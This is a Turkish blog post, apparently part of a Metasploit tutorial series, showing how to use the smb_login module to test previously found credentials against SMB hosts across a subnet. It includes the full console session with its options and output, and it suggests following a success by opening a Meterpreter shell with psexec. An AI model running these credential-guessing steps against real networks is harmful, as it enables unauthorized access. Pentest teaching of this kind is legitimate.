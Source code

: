 ```yaml
---
draft: false

title:  'MSF İçinde SMB Login Kontrolü'
date: '2017-05-18T13:02:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Yaptığınız taramalarda, bir şekilde kullanıcı adı ve parola bulduğunuzu düşünüyorsunuz. Bu kullanıcı adı ve parolanın başka hangi servislerde kullanıldığını denemek isteyebilirsiniz. Bu noktada denenebilecek en mantıklı servis\_SMB\_olarak adlandırılan ağ üzerinde dosya paylaşım servisidir." 
 
url:  /tr/msf-icinde-smb-login-kontrolu/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



Önceki yazılarımızda “Bilgi Toplama” modüllerinden bir kısmını gördük. IP ve Port tarama ile birlikte servislerin bulunmadı konularını ele aldık. Bir sonraki aşama “Zafiyet Taraması” olarak adlandırılır. Pentest aşamalarından “Bilgi Toplama” işlemleri ne kadar iyi ve sağlıklı yapılırsa, sonraki aşamalarda verim elde etmeniz de o kadar mümkün olacaktır.



Yaptığınız taramalarda, bir şekilde kullanıcı adı ve parola bulduğunuzu düşünüyorsunuz. Bu kullanıcı adı ve parolanın başka hangi servislerde kullanıldığını denemek isteyebilirsiniz. Bu noktada denenebilecek en mantıklı servis `SMB` olarak adlandırılan ağ üzerinde dosya paylaşım servisidir.



Aşağıdaki örnekte, `smb_login` modülü kullanılmakta ve önceden bulunan bir kullanıcı adı ve parola denenmektedir. Bu tarama türünde, hedef bilgisayar Windows ise dikkatli olmalısınız çünkü başarısız her deneme, sistem yöneticisine ikaz olarak iletilir. `smb_login` taramanın çok gürültü çıkarttığını bilmelisiniz.



Yaptığınız `smb_login` taramasında başarılı bir oturum açma gerçekleşirse, devamında `windows/smb/psexec` modülünü kullanarak `Meterpreter` shell açma denenebilir.


```bash
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary**(**smb_login**)** > show options

Module options **(**auxiliary/scanner/smb/smb_login**)**:

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   true             no        Try blank passwords **for **all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   PASS_FILE                          no        File containing passwords, one per line
   PRESERVE_DOMAINS  true             no        Respect a username that contains a domain name.
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             445              yes       Set the SMB service port
   SMBDomain         WORKGROUP        no        SMB Domain
   SMBPass                            no        SMB Password
   SMBUser                            no        SMB Username
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works **for **a host
   THREADS           1                yes       The number of concurrent threads
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      true             no        Try the username as the password **for **all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output **for **all attempts

msf auxiliary**(**smb_login**)** > set RHOSTS 192.168.1.0/24
RHOSTS **=>** 192.168.1.0/24
msf auxiliary**(**smb_login**)** > set SMBUser victim
SMBUser **=>** victim
msf auxiliary**(**smb_login**)** > set SMBPass s3cr3t
SMBPass **=>** s3cr3t
msf auxiliary**(**smb_login**)** > set THREADS 50
THREADS **=>** 50
msf auxiliary**(**smb_login**)** > run

> 192.168.1.100 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
> 192.168.1.111 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
> 192.168.1.114 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
> 192.168.1.125 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
> 192.168.1.116 - SUCCESSFUL LOGIN **(**Unix**)**
> Auxiliary module execution completed

msf auxiliary**(**smb_login**)** >
```



Örnek çıktıda görüldüğü gibi, `192.168.1.116` IP adresinde başarılı bir oturum açma işlemi gerçekleşmiştir.

